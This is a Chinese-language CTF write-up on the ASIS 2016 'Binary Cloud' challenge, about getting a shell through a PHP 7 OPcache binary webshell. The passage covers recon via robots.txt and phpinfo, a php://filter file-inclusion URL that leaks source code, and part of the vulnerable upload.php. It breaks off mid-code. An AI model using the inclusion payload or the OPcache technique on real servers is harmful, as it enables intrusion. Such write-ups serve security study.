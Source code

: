 ```yaml
---
title: Asis2016_Binary Cloud
date: 2016-05-10 20:12:00
tags:
- Blogs
- ctf
- php
categories:
- Blogs
---
```


上周的asis2016比赛中，有个很特别的题目叫Binary Cloud，而getshell的方法是前段时间的才爆出来的Binary Webshell Through OPcache in PHP 7，在实战环境中比较有趣~(～￣▽￣)～



题目实际没做出来当时，后来看了ctftime的wp
[http://corb3nik.github.io/asis%202016/Binary-Cloud/](http://corb3nik.github.io/asis%202016/Binary-Cloud/)

# 收集信息
首先发现存在
```robots.txt
User-Agent: *
Disallow: /
Disallow: /debug.php
Disallow: /cache
Disallow: /uploads
```
打开看到/uploads和/cache会爆forbidden,在debug页面我们发现了`phpinfo()`
我们可以看到php版本是**php7.0.4**

根据上面得到的信息，我们猜测OPcache是被允许的，而OPcache对应的位置就是robots.txt上对应的/cache
```
opcache.file_cache=/home/binarycloud/www/cache
```

再翻翻看站内发现存在文件上传和文件包含，甚至可以通过文件包含来读取文件的源码
**http://binarycloud.asis-ctf.ir?page=php://filter/convert.base64-encode/resource=upload**

```upload.php
<?php
function ew($haystack, $needle) {
    return $needle === "" || (($temp = strlen($haystack) - strlen($needle)) &gt;= 0 &amp;&amp; strpos($haystack, $needle, $temp) !== false);
}

function filter_directory(){
  $data = parse_url($_SERVER['REQUEST_URI']);
  $filter = ["cache", "binarycloud"];
  foreach($filter as $f){
    if(preg_match("/".$f."/i", $data['query'])){
      die("Attack Detected");
    }
  }
}

function error($msg){
  die("&lt;script&gt;alert('$msg');history.go(-1);&lt;/script&gt;");
}

filter_directory();

if($_SERVER['QUERY_STRING'] &amp;&amp; $_FILES['file']['name']){
```